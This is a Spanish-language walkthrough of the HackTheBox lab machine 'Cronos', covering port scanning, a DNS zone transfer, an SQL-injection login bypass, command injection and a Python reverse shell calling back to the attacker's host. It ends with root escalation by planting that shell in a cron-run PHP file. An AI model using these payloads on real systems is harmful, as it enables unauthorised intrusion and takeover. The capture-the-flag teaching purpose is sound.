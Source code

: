```yaml
---
layout : post
author: X4v1l0k
title: Cronos Writeup [HTB]
date: 2020-11-06 20:12:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Command injection,Cron,PHP,OSCP Path]
headline: Cronos is a beginner-friendly Linux machine from Hackthebox, where we will bypass a html login with SQL injection, we will get a shell using Command injection and we will escalate privileges taking advantage of a cron task.
image: https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos - 10.10.10.13
===
###### tags: `HTB` `Medium` `Linux`

# Enumeración
## Nmap
```bash
$ nmap -A -Pn -p- 10.10.10.13

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-05 19:25 CET
Nmap scan report for 10.10.10.13
Host is up (0.034s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.72 ms 10.10.14.1
2   33.77 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.44 seconds
```

## Puerto 53
- Sabiendo que tiene el puerto DNS abierto, registro la IP dentro del archivo hosts como cronos.htb y ahora, al acceder desde el navegador a http://cronos.htb nos encontramos con una web.
- Ahora, para completar la enumeración del puerto, vamos a ver si tiene más dominios asociados.

```bash
$ dig @10.10.10.13 cronos.htb axfr

; <<>> DiG 9.16.4-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: jue nov 05 19:30:19 CET 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
- Vemos que también está disponible http://admin.cronos.htb por lo tanto, lo añadimos también a nuestro archivo hosts.

## Puerto 80
- Dentro de la URl http://cronos.htb nos encontramos 5 enlaces a recursos externos.
- Dentro de http://admin.cronos.htb/ nos encontramos una página de login.

# Explotación
- Para hacer bypass al login de http://admin.cronos.htb/ usamos:
	- `username: admin' or '1'='1 #`
	- `password: cualquiercosa`
- Ahora, nos encontramos un formulario en el que según parece podemos hacer ping y tracert a una ip.
- Si ponemos en el input `;id` podemos ver que tenemos RCE como www-data por lo que, vamos a por una shell.
- Perfecto, usando el siguiente payload, obtenemos shell.

```
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Post explotación
## Escala de privilegios
- Dentro del archivo config.php nos encontramos unas credenciales de la base de datos.

```bash
$ www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

- Vamos a conectarnos a la base de datos y ver que sacamos.

```bash
$ www-data@cronos:/home$ mysql -u admin -p

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

- Ahora tenemos una encriptación en lo que parece ser MD5. Mientras la crackea, vamos a lanzar linpeas.


```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

- Linpeas nos reporta un cron ejecutándose como root sobre un archivo del que somos propietarios por lo que, podemos inyectar en el una shell!. Modificamos el inicio del archivo dejándolo del siguiente modo.

```bash
$ nano /var/www/laravel/artisan

#!/usr/bin/env php
<?php

system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
```

- Ahora, esperamos unos segundos con un listener corriendo y... tenemos shell como root!.
